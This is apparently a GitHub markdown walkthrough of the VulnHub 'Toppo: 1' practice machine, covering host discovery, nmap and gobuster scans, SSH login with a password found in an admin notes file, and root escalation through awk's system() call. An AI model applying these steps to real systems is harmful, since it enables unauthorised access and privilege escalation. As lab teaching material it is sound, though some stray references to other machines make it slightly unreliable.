







# Toppo: 1 Walkthrough

## Preparation
1. Download Toppo.zip file ([Toppo.zip](https://download.vulnhub.com/toppo/Toppo.zip))

1. Extract the zip file  

1. Make the virtual machine  
    * Setting the following items  
      
      
      
        - Machine -> New  
        - Name: Toppo-1  
        - Type: Linux  
        - Version: Oracle Linux (64-bit)  
        - Base Memory: 1024 MB  
        - Choose "Toppo.vmdk (extracted file)  

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
        

1. Start the Toppo-1 virtual machine
    * Turn on the mrRobot virtual machine from the VirtualBox  
      

1. Confirm the IP address of the Toppo-1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.113**: Toppo-1 Server  

1. Set the Toppo-1 IP address to the environment variance  
    * `export IP=192.168.56.113`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
      
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the DC-2 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file
    * As we see the nmap result, we can attempt to access of 22 (SSH Service), 80 (HTTP Service), and 111 (RPCBIND Service) ports.  

1. Enumerate accessible files  
    * Use Gobuster  
      
        - `gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt`  
        - We found the "/admin" directory  

1. Access the /admin page  
    * Access with Web browser  
      
      
        - We found the password (**12345ted123**) in the notes.txt  

## Execution  
1. Access to the SSH service  
    * Use the username and password  
      
        - `ssh ted@$IP`  
        - Username: **ted**  
        - Password: **12345ted123**  

1. Investigate the system  
    * Confirm "sudo"  
      
        - `cat /etc/sudoers`  
        - We can execute the "awk" without password  

## Privilege Escalation  
1. Confirm the Awk exploitation  
    * Use system function    
      
        - `awk 'BEGIN {system("whoami")}'`  
        - It means we can execute as root user  

## Credential Access  
1. Open the root flag file  
    * Use "cat" command  
      
        - `awk 'BEGIN {system("cat /root/flag.txt")}'`  